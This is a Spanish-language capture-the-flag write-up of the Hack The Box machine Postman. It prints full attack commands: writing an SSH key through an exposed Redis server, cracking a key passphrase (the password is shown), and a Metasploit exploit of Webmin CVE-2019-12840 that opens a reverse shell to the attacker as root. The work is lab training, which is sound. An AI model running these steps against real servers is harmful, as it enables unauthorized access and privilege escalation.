Hack The Box - Postman

Contenido
| Nombre | Postman |
|---|---|
| OS | Linux |
| Puntos | 20 |
| Dificultad | Facil |
| IP | 10.10.10.160 |
| Maker | TheCyberGeek |
NMAP
Escaneo de puerto tcp/udp, en el cual nos muestra el puerto http (80) y el puerto de ssh (22) abierto.
# Nmap 7.80 scan initiated Thu Dec 26 14:42:29 2019 as: nmap -p- --min-rate 1000 -o postman_nmap 10.10.10.160
Warning: 10.10.10.160 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.160
Host is up (0.26s latency).
Not shown: 65213 closed ports, 318 filtered ports
PORT STATE SERVICE
22/tcp open ssh
80/tcp open http
6379/tcp open redis
10000/tcp open snet-sensor-mgmt
# Nmap done at Thu Dec 26 14:45:40 2019 -- 1 IP address (1 host up) scanned in 191.74 seconds
# Nmap 7.80 scan initiated Thu Dec 26 14:46:53 2019 as: nmap -sV -sC -p22,80,6379,10000 -o postman_nmap_v 10.10.10.160
Nmap scan report for 10.10.10.160
Host is up (0.25s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
| 256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_ 256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp open redis Redis key-value store 4.0.9
10000/tcp open http MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 26 14:47:36 2019 -- 1 IP address (1 host up) scanned in 43.58 seconds
HTTP (Puerto 80)
En el puerto 80 nos muestra una pagina que al parecer esta en construccion.

PUERTO 6379
En el puerto 6379 nos muestra un mensaje de error.

PUERTO 10000
En este puerto nos muestra un mensaje de error en el cual nos dice que probemos en el protocolo https.

Cambiamos a https y nos muestra un panel de Webmin. 
GOBUSTER - Puerto 80
Encontramos algunos directorios y archivos.
root@aoiri:~/htb/postman# gobuster dir -u http://10.10.10.160/ -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 15 -q
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/index.html (Status: 200)
/js (Status: 301)
/server-status (Status: 403)
/upload (Status: 301)
REDIS PUERTO 6379
Como vimos en el reporte de nmap este puerto esta corriendo un servicio de redis 4.0.9. Al intentar conectarnos con el servicio mediante redis-tools podemos obtener informacion del mismo.

REDIS - Explotacion
Utilizando los comandos de redis podemos obtener informacion del directorio donde esta corriendo o esta siendo utilizado por redis, tambien el nombre del archivo (dbfilename).

Vemos que la configuracion del dbfilename es dump.rdb y el directorio esta ubicado en /var/lib/redis, para obtener acceso a la maquina mediante redis vamos a sobrescribir la configuracion, agregando el dbfilename como authorized_keys donde vamos a escribir nuestra clave publica de ssh y dir como /var/lib/redis/.ssh.
REDIS SSH
Generamos nuestra clave publica con ssh-keygen la cual vamos a utilizar para iniciar sesion en el servicio ssh. 
Antes de configurar redis debemos de agregar saltos de linea antes y despues en nuevo archivo agregando nuestra clave publica.
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > clave_publica.txt

Utilizamos redis-cli localmente para agregar la configuracion que necesitamos a la maquina, con los comandos:
#Configuracion dir
redis-cli -h 10.10.10.160
config set dir /var/lib/redis/.ssh
config get dir
#Configuracion dbfilename
config set dbfilename authorized_keys
config get dbfilename
SLAVEOF NO ONE
save
#Escritura de clave publica en nuestra key
cat clave_publica.txt | redis-cli -h 10.10.10.160 -x set s-key
get s-key

Verificamos que nuestra clave publica se haya escrito en nuestra key (s-key):

Utilizando nuestra clave privada iniciamos sesion con el usuario redis:

Vemos el historial del usuario redis, encontramos que el usuario edito un archivo de python y un archivo de id_rsa.bak:

Archivo id_rsa.bak: 
USER - Matt
Utilizando la clave privada con el usuario Matt con ssh nos pregunta por la frase.

Utilizamos ssh2john para obtener el hash del archivo y junto con john the ripper crackear la frase de la clave privada.
python ssh2john.py id_rsa_matt > id_rsa_matt.hash
john --format=SSH --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_matt.hash

FRASE: computer2008
Obtenemos la frase pero al intentar utilizarla con la clave privada no nos permite iniciars sesion. 
Utilizamos la misma frase como contraseña de Matt y con el comando su, obtuvimos una shell con el usuario Matt y nuestra flag user.txt.

Flag: 
PRIVILEGE ESCALATION
Utilizamos las credenciales de Matt en el puerto 10000 o webmin panel, exitosamente logramos iniciar sesion.

La version de webmin menores o iguales a 1.910 tienen una vulnerabilidad (CVE:2019-12840) que permite la ejecucion de comandos, configuramos metasploit con el cve, añadimos las credenciales de Matt y utilizamos SSL.

msf5 > search 2019-12840
Matching Modules
================
# Name Disclosure Date Rank Check Description
- ---- --------------- ---- ----- -----------
0 exploit/linux/http/webmin_packageup_rce 2019-05-16 excellent Yes Webmin Package Updates Remote Command Execution
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) >
msf5 exploit(linux/http/webmin_packageup_rce) > show options
Module options (exploit/linux/http/webmin_packageup_rce):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes Webmin Password
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 10000 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes Base path for Webmin application
USERNAME yes Webmin Username
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Webmin <= 1.910
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) >
msf5 exploit(linux/http/webmin_packageup_rce) > show options
Module options (exploit/linux/http/webmin_packageup_rce):
Name Current Setting Required Description
---- --------------- -------- -----------
PASSWORD yes Webmin Password
Proxies no A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS 10.10.10.160 yes The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT 10000 yes The target port (TCP)
SSL false no Negotiate SSL/TLS for outgoing connections
TARGETURI / yes Base path for Webmin application
USERNAME yes Webmin Username
VHOST no HTTP server virtual host
Payload options (cmd/unix/reverse_perl):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Webmin <= 1.910
msf5 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
lhost => 10.10.14.67
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run
[*] Started reverse TCP handler on 10.10.14.67:4444
[+] Session cookie: 4c7f4b517283e96d41da23ced104e00a
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.14.67:4444 -> 10.10.10.160:42436) at 2019-12-29 22:13:48 -0600
id
uid=0(root) gid=0(root) groups=0(root)
whoami; pwd
root
/usr/share/webmin/package-updates/

Obtenemos una sesion con privilegios root y nuestra flag root.txt. 